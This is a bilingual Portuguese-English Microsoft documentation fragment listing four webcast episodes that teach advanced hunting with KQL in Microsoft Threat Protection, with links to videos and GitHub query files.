<span data-ttu-id="8ca96-372">Para saber mais sobre a busca avançada, os webcasts a seguir vão orientá-lo nos recursos de busca avançada dentro da MTP (proteção contra ameaças da Microsoft) para criar consultas entre pilar, pivotar para entidades e criar detecções personalizadas e ações de correção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-372">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft Threat Protection (MTP) to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-373">Prepare-se com sua própria conta do GitHub para executar as consultas de busca em seu ambiente de laboratório de teste piloto.</span><span class="sxs-lookup"><span data-stu-id="8ca96-373">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>  

| <span data-ttu-id="8ca96-374">**Título**</span><span class="sxs-lookup"><span data-stu-id="8ca96-374">**Title**</span></span> | <span data-ttu-id="8ca96-375">**Descrição**</span><span class="sxs-lookup"><span data-stu-id="8ca96-375">**Description**</span></span> | <span data-ttu-id="8ca96-376">**Baixar MP4**</span><span class="sxs-lookup"><span data-stu-id="8ca96-376">**Download MP4**</span></span> | <span data-ttu-id="8ca96-377">**Assista ao YouTube**</span><span class="sxs-lookup"><span data-stu-id="8ca96-377">**Watch on YouTube**</span></span> | <span data-ttu-id="8ca96-378">**Arquivo CSL a ser usado**</span><span class="sxs-lookup"><span data-stu-id="8ca96-378">**CSL file to use**</span></span> |
|:-----|:-----|:-----|:-----|:-----|
| <span data-ttu-id="8ca96-379">Episódio 1: conceitos básicos do KQL</span><span class="sxs-lookup"><span data-stu-id="8ca96-379">Episode 1: KQL fundamentals</span></span> | <span data-ttu-id="8ca96-380">Abordaremos as noções básicas de recursos avançados de busca na proteção contra ameaças da Microsoft.</span><span class="sxs-lookup"><span data-stu-id="8ca96-380">We’ll cover the basics of advanced hunting capabilities in Microsoft Threat Protection.</span></span> <span data-ttu-id="8ca96-381">Saiba mais sobre dados de busca avançada disponíveis e sintaxe e operadores básicos de KQL.</span><span class="sxs-lookup"><span data-stu-id="8ca96-381">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span> | [<span data-ttu-id="8ca96-382"> MP4</span><span class="sxs-lookup"><span data-stu-id="8ca96-382"> MP4</span></span>](https://aka.ms/MTP15JUL20_MP4) | [<span data-ttu-id="8ca96-383">YouTube</span><span class="sxs-lookup"><span data-stu-id="8ca96-383">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM) | [<span data-ttu-id="8ca96-384">Episódio 1: arquivo CSL no git</span><span class="sxs-lookup"><span data-stu-id="8ca96-384">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| <span data-ttu-id="8ca96-385">Episódio 2: junções</span><span class="sxs-lookup"><span data-stu-id="8ca96-385">Episode 2: Joins</span></span> | <span data-ttu-id="8ca96-386">Continuaremos aprendendo sobre dados em busca avançada e como ingressar em uma tabela.</span><span class="sxs-lookup"><span data-stu-id="8ca96-386">We’ll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="8ca96-387">Saiba mais sobre as nuances interna, externa, exclusiva e semijoins, e as nuances do Kusto innerunique join.</span><span class="sxs-lookup"><span data-stu-id="8ca96-387">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span> | [<span data-ttu-id="8ca96-388">MP4</span><span class="sxs-lookup"><span data-stu-id="8ca96-388">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4) | [<span data-ttu-id="8ca96-389">YouTube</span><span class="sxs-lookup"><span data-stu-id="8ca96-389">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU) | [<span data-ttu-id="8ca96-390">Episódio 2: arquivo CSL no git</span><span class="sxs-lookup"><span data-stu-id="8ca96-390">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| <span data-ttu-id="8ca96-391">Episódio 3: Resumindo, dinamizando e visualizando dados</span><span class="sxs-lookup"><span data-stu-id="8ca96-391">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="8ca96-392">Agora que podemos filtrar, manipular e participar de dados, é hora de começar a resumir, quantificar, dinamizar e Visualizar.</span><span class="sxs-lookup"><span data-stu-id="8ca96-392">Now that we’re able to filter, manipulate, and join data, it’s time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="8ca96-393">Neste episódio, abordaremos o operador resumido e alguns dos cálculos que podem ser executados ao se aprofundar em tabelas adicionais no esquema de busca avançada.</span><span class="sxs-lookup"><span data-stu-id="8ca96-393">In this episode, we’ll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="8ca96-394">Nós transformamos nossos conjuntos de gráficos em gráficos que podem ajudar a melhorar a análise.</span><span class="sxs-lookup"><span data-stu-id="8ca96-394">We turn our datasets into charts that can help improve analysis.</span></span> | [<span data-ttu-id="8ca96-395">MP4</span><span class="sxs-lookup"><span data-stu-id="8ca96-395">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4) | [<span data-ttu-id="8ca96-396">YouTube</span><span class="sxs-lookup"><span data-stu-id="8ca96-396">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y) | [<span data-ttu-id="8ca96-397">Episódio 3: arquivo CSL no git</span><span class="sxs-lookup"><span data-stu-id="8ca96-397">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| <span data-ttu-id="8ca96-398">Episódio 4: Vamos procurar!</span><span class="sxs-lookup"><span data-stu-id="8ca96-398">Episode 4: Let’s hunt!</span></span> <span data-ttu-id="8ca96-399">Aplicando KQL ao rastreamento de incidentes</span><span class="sxs-lookup"><span data-stu-id="8ca96-399">Applying KQL to incident tracking</span></span>|<span data-ttu-id="8ca96-400">Tempo para controlar alguma atividade de atacante!</span><span class="sxs-lookup"><span data-stu-id="8ca96-400">Time to track some attacker activity!</span></span> <span data-ttu-id="8ca96-401">Neste episódio, usaremos nossa compreensão aprimorada do KQL e busca avançada no Microsoft Threat Protection para rastrear um ataque.</span><span class="sxs-lookup"><span data-stu-id="8ca96-401">In this episode, we’ll use our improved understanding of KQL and advanced hunting in Microsoft Threat Protection to track an attack.</span></span> <span data-ttu-id="8ca96-402">Saiba algumas das dicas e truques usados no campo para acompanhar a atividade do atacante, incluindo o ABCs do cybersecurity e como aplicá-las à resposta de incidentes.</span><span class="sxs-lookup"><span data-stu-id="8ca96-402">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span> | [<span data-ttu-id="8ca96-403">MP4</span><span class="sxs-lookup"><span data-stu-id="8ca96-403">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4) | [<span data-ttu-id="8ca96-404">YouTube</span><span class="sxs-lookup"><span data-stu-id="8ca96-404">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8) | [<span data-ttu-id="8ca96-405">Episódio 4: arquivo CSL no git</span><span class="sxs-lookup"><span data-stu-id="8ca96-405">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a><span data-ttu-id="8ca96-406">Próxima etapa</span><span class="sxs-lookup"><span data-stu-id="8ca96-406">Next step</span></span>
|<span data-ttu-id="8ca96-407"></span><span class="sxs-lookup"><span data-stu-id="8ca96-407"></span></span> <br>[<span data-ttu-id="8ca96-408">Fase de fechamento e Resumo</span><span class="sxs-lookup"><span data-stu-id="8ca96-408">Closing and summary phase</span></span>](mtp-pilot-close.md) | <span data-ttu-id="8ca96-409">Analise o resultado do piloto da proteção contra ameaças da Microsoft, apresente-os aos seus participantes e siga a próxima etapa.</span><span class="sxs-lookup"><span data-stu-id="8ca96-409">Analyze your Microsoft Threat Protection pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|

